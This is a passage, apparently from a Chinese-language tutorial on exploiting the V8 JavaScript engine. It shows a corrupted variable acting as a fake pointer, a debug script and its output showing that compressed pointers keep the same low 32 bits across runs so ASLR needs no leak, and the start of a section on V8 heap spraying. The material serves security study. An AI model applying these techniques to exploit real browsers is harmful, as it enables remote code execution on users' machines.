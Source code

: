 ## 漏洞利用

运行后可以看出，evil 变量被当作一个整数直接打印了，这意味着 evil 似乎变成了一个指针，能够指向任意一个对象了：

```shell
DebugPrint: Smi: 0x20202021 (538976289)
```

> 此处 0x20202021 \* 2 = 0x40404042 正好是我们设定的值

但目前我们还需要有办法泄露地址，从可能让 evil 指向一个合适的目标，显然，我们目前缺少能够泄露地址的手段，但回顾其上一章曾说过的，v8 对存储的地址进行了压缩，只保留了低 32 字节，那么实际情况会是什么样的呢？先试着用一个简单的脚本测试一下：

```javascript
a=[2.1]
b=[a];
arr = Array(0xf700);
%DebugPrint(a);
%DebugPrint(b);
%DebugPrint(arr);
```

```
DebugPrint: 0x54408049941: [JSArray]//第一次运行
DebugPrint: 0x5440804995d: [JSArray]
DebugPrint: 0x5440804996d: [JSArray]

DebugPrint: 0x54008049941: [JSArray]//第二次运行
DebugPrint: 0x5400804995d: [JSArray]
DebugPrint: 0x5400804996d: [JSArray]

DebugPrint: 0x3b0d08049941: [JSArray]//第三次运行
DebugPrint: 0x3b0d0804995d: [JSArray]
DebugPrint: 0x3b0d0804996d: [JSArray]
```

尽管三次运行，每次打印的地址都不一样，但如果只看其低 32bit 的话，这些地址是完全相同的。在地址压缩的情况下，我们需要写入的地址只需要低 32bit 即可，这意味着，我们不需要任何泄露也能够让 evil 指向一块我们希望的地址，因为它们的低位不会因为 ASLR 而改变

### V8下的堆喷技术

网上一搜堆喷，首先出来的就是通过跳板指令去滑到 shellcode，但那种利用条件以目前的技术来看似乎基本上无法利用了，毕竟它要求堆是可读可写可执行的，才可能往里面插跳板指令，至少在 v8 中是不太可能，但通过开辟大内存块来调整内存结构的思路是可以借用的

一般在 v8 的分析文章中常说的堆内存指的是如下这段内存：

```javascript
     0x23200000000      0x2320014e000 r-xp   14e000 0      [anon_23200000]
     0x2320014e000      0x23200180000 ---p    32000 0      [anon_2320014e]
     0x23200180000      0x23200183000 rw-p     3000 0      [anon_23200180]
     0x23200183000      0x23200184000 ---p     1000 0      [anon_23200183]
     0x23200184000      0x2320019a000 r-xp    16000 0      [anon_23200184]
     0x2320019a000      0x232001bf000 ---p    25000 0      [anon_2320019a]
     0x232001bf000      0x23208000000 ---p  7e41000 0      [anon_232001bf]
     0x23208000000      0x2320802a000 r--p    2a000 0      [anon_23208000]
     0x2320802a000      0x23208040000 ---p    16000 0      [anon_2320802a]
     0x23208040000      0x2320814d000 rw-p   10d000 0      [anon_23208040]
     0x2320814d000      0x23208180000 ---p    33000 0      [anon_2320814d]
     0x23208180000      0x23208183000 rw-p     3000 0      [anon_23208180]
     0x23208183000      0x232081c0000 ---p    3d000 0      [anon_23208183]
     0x232081c0000      0x2320833e000 rw-p   17e000 0      [anon_232081c0]
     0x2320833e000      0x23300000000 ---p f7cc2000 0      [anon_2320833e]
```
